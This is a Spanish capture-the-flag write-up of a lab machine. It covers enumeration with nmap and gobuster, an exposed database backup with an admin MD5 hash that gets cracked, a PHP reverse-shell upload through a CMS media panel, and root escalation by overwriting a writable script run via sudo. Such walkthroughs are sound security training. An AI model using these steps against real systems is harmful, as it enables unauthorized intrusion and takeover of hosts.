










## 1. Enumeracion
Usamos nmap para ver que puertos tiene abiertos la victima.
`nmap -sV -sC 10.130.170.99`
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-11 07:33 -0400
Nmap scan report for 10.130.170.99
Host is up (0.027s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```
Vemos que tiene abierto un puerto ssh y un apache.

## 2. Analisis puerto 80.
Hago un curl a la pagina para ver que nos responde.
`curl 10.130.170.99`
Nos devuelve la pagina default de apache ya que no podemos hacer nada util solo con eso decido usar gobuster para escanear subdirectorios en la pagina.
`gobuster dir -u http://10.130.170.99   -w /usr/share/wordlists/dirb/common.txt`
```
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.130.170.99
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htpasswd            (Status: 403) [Size: 278]
.htaccess            (Status: 403) [Size: 278]
.hta                 (Status: 403) [Size: 278]
content              (Status: 301) [Size: 316] [--> http://10.130.170.99/content/]
index.html           (Status: 200) [Size: 11321]
server-status        (Status: 403) [Size: 278]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================

```
Vemos que hay un subdirectorio /content, entro a ver que hay.

Vemos que no tiene nada interesante asi que vuelvo a ejecutar gobuster pero ahora dentro de content.
`gobuster dir -u http://10.130.170.99/content -w /usr/share/wordlists/dirb/common.txt`

```
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.130.170.99/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 278]
.htaccess            (Status: 403) [Size: 278]
.htpasswd            (Status: 403) [Size: 278]
_themes              (Status: 301) [Size: 324] [--> http://10.130.170.99/content/_themes/]
as                   (Status: 301) [Size: 319] [--> http://10.130.170.99/content/as/]
attachment           (Status: 301) [Size: 327] [--> http://10.130.170.99/content/attachment/]
images               (Status: 301) [Size: 323] [--> http://10.130.170.99/content/images/]
inc                  (Status: 301) [Size: 320] [--> http://10.130.170.99/content/inc/]
index.php            (Status: 200) [Size: 2199]
js                   (Status: 301) [Size: 319] [--> http://10.130.170.99/content/js/]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
```

## 3. Busqueda de credenciales

Vemos que ahora encuentra mas cosas pero vamos a centrarnos en lo importante, /as es un panel de administracion pero todavia no tenemos las credenciales y al entrar a /inc vemos que han dejado una backup de la base de datos a la que puede acceder cualquiera.


Y al entrar al archivo y buscar cosas encontramos esto:

admin: manager
passwd: 42f749ade7f9e195bf475f37a44cafcb

Vemos que la contraseña es md5 asi que vamos a crackstation para ver si conseguimos la contraseña.


Ahora vamos al panel de administracion y ponemos las credenciales.


## 4. Explotacion

Hay varias opciones en el panel pero la mas interesante es la de `media center` ya que nos deja subir archivos a la web permitiendonos ejecutar una revshell.

Me pongo a escuchar en el puerto 4444 y subo la revshell de pentesmonkey php a la web. 


Y al ejecutarla y volver a la terminal.
``


Vemos que estamos como el usuaro www-data. Nos ponemos a buscar por los directorios y dentro de home/itguy hay un archivo interesante que es user.txt y al hacerle cat.

Ya tenemos la primera flag.

## 5. Escalada de privilegios 
Para encontrar la segunda flag nos tenemos que convertir en root asi que empiezo haciendo un `sudo -l ` .

Vemos que hay un archivo sospechoso para que lo puede ejecutar www-data como root sin contraseña, y al entrar y ver que tiene.
`cat backup.pl`
```
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```



Vemos que ejecuta /etc/copy.sh y como nosotros tenemos permisos de escritura, podremos reescribir ese script para que nos de una shell y a la hora de ejecutar `backup.pl` como sudo tambien ejecutara `/etc/copy.sh` como sudo y podremos conseguir una shell con root.
Primero usamos `echo "/bin/bash" > /etc/copy.sh`
Y luego ejecutamos el script con sudo.
`sudo /usr/bin/perl /home/itguy/backup.pl`

Ahora entramos a la carpeta root a la que antes no teniamos permiso y leemos el archivo que tiene dentro.

